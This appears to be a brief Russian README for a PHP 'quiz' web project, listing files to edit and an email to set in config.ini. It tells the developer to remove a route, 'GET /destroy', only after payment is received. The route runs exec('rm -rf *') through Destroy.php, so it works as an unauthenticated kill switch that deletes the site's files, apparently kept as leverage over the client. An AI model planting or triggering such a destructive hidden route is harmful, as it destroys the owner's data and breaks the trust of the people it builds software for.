 # quiz

После получения бабла, удалить строчку из `routes.ini`:

```
GET /destroy=controllers\Destroy->destroy
```

Возможно нужно будет изменить команду удаления в файле `autoload/controllers/Destroy.php`:

```
exec("rm -rf *");
```

## Файлы, в которых необходимо редактирование

* autoload/controllers/Form.php
* autoload/models/Mail.php
* autoload/views/Render.php
* config.ini

## config.ini

В этом файле необходимо заменить email:

```
email=example@mail.com
```

